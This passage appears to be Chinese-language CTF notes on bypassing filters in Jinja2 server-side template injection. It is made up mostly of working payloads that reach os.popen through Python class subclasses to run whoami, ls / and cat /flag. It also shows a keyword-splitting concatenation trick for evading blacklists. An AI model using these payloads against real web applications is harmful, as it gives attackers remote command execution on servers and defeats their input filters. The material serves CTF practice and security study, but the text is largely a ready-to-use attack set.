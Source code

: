 {% + print 绕过

```
{%print(''.__class__.__base__.__subclasses__()[138].__init__.__globals__.popen('whoami').read())%}
```



### ==字符串拼接绕过==

当有一种情况就是它去判断所有的关键字，都没办法用的情况下，尝试字符串拼接





1. 查看哪些类可以使用

```
{{''.__class__.__base__.__subclasses__()}}
```

```
{{()['__cla'+'ss__'].__base__['__subcl'+'asses__']()}}
```



2. 找利用类索引，就是找os_wrap_close这个函数的索引是啥，那后面写的就是啥

```
<class 'os._wrap_close'>
```



3. 找利用类方法(不一定是133，所以要去尝试一下)

```
{{''.__class__.__base__.__subclasses__()[133].__init__.__globals__}}
```

```
{{()['__cla'+'ss__'].__base__['__subcl'+'asses__']()[137]['__in'+'it__']['__glo'+'bals__']}}
```



4. 构造利用方法，popen直接弹出服务器的计算器calc

```
{{''.__class__.__base__.__subclasses__()[133].__init__.__globals__.popen('cat /flag').read()}}
```



```
{{()['__cla'+'ss__'].__base__['__subcl'+'asses__']()[137]['__in'+'it__']['__glo'+'bals__']['__bui'+'ltins__']['ev'+'al']("__im"+"port__('o'+'s').po"+"pen('ls /').read()")}}
```

```
{{()['__cla'+'ss__'].__base__['__subcl'+'asses__']()[137]['__in'+'it__']['__glo'+'bals__']['__bui'+'ltins__']['ev'+'al']("__im"+"port__('o'+'s').po"+"pen('cat /Th1s_is__F1114g').read()")}}
```


